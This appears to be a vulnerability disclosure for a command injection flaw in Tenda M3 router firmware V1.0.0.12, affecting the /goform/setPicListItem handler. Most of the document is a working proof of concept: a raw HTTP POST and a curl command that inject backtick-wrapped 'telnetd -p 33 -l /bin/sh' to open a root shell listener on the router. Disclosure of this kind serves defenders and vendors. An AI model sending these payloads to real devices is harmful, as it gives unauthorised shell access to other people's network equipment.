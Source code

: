 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setPicListItem route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



![2](./3.jpg)

![2](./4.jpg)

![2](./5.jpg)

When we send packets, the router will be shell



```
POST /cgi-bin/uploadPic HTTP/1.1
Host: 192.168.10.1
Referer: http://192.168.10.1/login.html
Cookie: bLanguage=cn; user=admin; workMode=slave
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 310

-----------------------------11

`telnetd -p 33 -l /bin/sh`aa-------


-----------------------------11
22----

-----------------------------11
33----

-----------------------------11
44----

-----------------------------11
55----

----11
filename---

-----------------------------11
77--11
```



```
curl -i -X POST http://192.168.10.1/goform/setPicListItem -d adPicName='cc' -d adItemUID='`telnetd -p 33 -l /bin/sh`h`h`' --cookie "user=admin"
```





![poc](./poc.jpg)

